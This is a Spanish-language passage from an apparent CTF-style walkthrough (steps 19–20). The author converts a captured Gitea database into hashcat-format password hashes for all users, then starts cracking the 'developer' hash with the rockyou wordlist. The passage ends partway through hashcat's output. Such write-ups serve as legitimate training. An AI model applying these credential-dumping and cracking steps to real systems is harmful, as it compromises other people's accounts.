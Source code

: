 Explicación:

## Paso 19 - 

Acción: descargamos el siguiente script en python para extraer hashed y poder usarlo con `hashcat`

```Shell 
wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py
python3 gitea2hashcat.py gitea.db > hashes.txt
```

Resultado:

```Shell
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:VxHA+/p7K8WmofIEbCFICw==:irkomsvf96MoOU0yFLM+NnEZd2s8qSgm9bYql/TYt5a2bVc3DJum6hggtxNSxm2y8f0=
sha256:50000:dxCW+oum0BmjwcBHaaDcrA==:JNKsmV6BjGTYJWkj69W6YB/inrJaxcRpVMMRaFRI457QfrbF6vKdlL74OqSSgibvgPA=
```

Explicación: tenemos un hashes.txt archivo con los hashes asociados a todos los usuarios de la plataforma, como el segundo hash corresponde al usuario 'developer' copiamos toda la línea y la guardamos en un archivo llamado developer_hash.txt


## Paso 20 - 

Acción: 

```Shell 
hashcat -m 10900 developer_hash.txt /usr/share/wordlists/rockyou.txt
```

Resultado: 

```Shell 
OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-12th Gen Intel(R) Core(TM) i5-1235U, 1424/2913 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
```